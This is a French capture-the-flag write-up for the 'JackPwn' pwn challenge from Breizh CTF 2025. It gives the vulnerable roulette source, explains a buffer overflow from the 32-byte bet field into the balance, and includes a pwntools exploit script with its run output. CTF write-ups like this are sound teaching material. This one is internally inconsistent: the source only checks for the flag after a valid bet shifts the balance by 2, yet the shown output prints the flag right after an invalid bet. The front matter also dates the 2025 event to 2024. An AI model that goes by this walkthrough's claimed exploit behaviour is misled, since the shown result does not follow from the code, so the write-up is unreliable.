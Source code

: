 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2024-04-14
tags: ["breizh ctf", "pwn", "buffer overflow", "exploitation"]
---
```


# JackPwn - Breizh CTF 2025

## Description du challenge

JackPwn est un challenge de la catégorie Pwn du Breizh CTF 2025. Il simule un jeu de roulette avec une vulnérabilité de buffer overflow.

## Analyse du binaire

Voici le code source du binaire :

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

Après analyse, on peut identifier plusieurs points clés :

1. Le programme simule un jeu de roulette où le joueur peut miser sur "rouge", "noir", "pair" ou "impair"
2. Une structure `ctx` contient deux éléments :
   - `mise[32]` : un buffer de 32 octets pour stocker la mise
   - `solde` : un entier qui représente l'argent du joueur
3. Le flag est affiché uniquement si le solde atteint exactement 0x1337 (4919 en décimal)
4. La fonction `read_input()` lit des caractères jusqu'à rencontrer un retour à la ligne, sans vérifier la taille du buffer
5. Avec un solde initial de 50 et des gains/pertes de seulement 2, il faudrait énormément de parties pour atteindre 4919

## Vulnérabilité

La vulnérabilité principale est un buffer overflow classique dans la fonction `read_input()` :

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

Cette fonction ne vérifie pas la taille du buffer et continue d'écrire tant qu'elle ne rencontre pas un retour à la ligne. De plus, lors de l'appel à cette fonction, le buffer passé en paramètre est `ctx.mise`, qui ne fait que 32 octets. Si on entre plus de 32 caractères, on débordera sur le champ `solde` qui se trouve juste après dans la mémoire.

## Exploitation

La stratégie d'exploitation est simple :
1. Remplir les 32 octets du buffer `mise`
2. Écrire en plus exactement les 4 octets de la valeur 0x1337 (4919) dans `solde`
3. La valeur sera considérée comme valide car le buffer se termine par un 0 (ajouté par `read_input`)

Voici comment exploiter cette vulnérabilité :

```python
from pwn import *

# Connexion au serveur distant
conn = remote('jackpwn.chall.ctf.bzh', 1337)

# Création du payload
payload = b"A" * 32  # Remplir le buffer mise
payload += p32(0x1337)  # Écrire 0x1337 dans solde

# Attente du prompt et envoi du payload
conn.recvuntil(b"Votre mise : ")
conn.sendline(payload)

# Affichage du résultat
response = conn.recvall().decode()
print(response)
```

## Flag

Après exécution de l'exploit, le programme détecte que le solde est exactement 0x1337 et affiche le flag :

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```

## Conclusion

JackPwn est un exercice classique de buffer overflow visant à modifier une variable adjacente en mémoire. La vulnérabilité est dans la fonction `read_input()` qui n'effectue aucune vérification de la taille du buffer, permettant ainsi d'écrire au-delà des limites du tableau `mise` et de modifier directement la valeur de `solde` pour atteindre la condition de victoire. 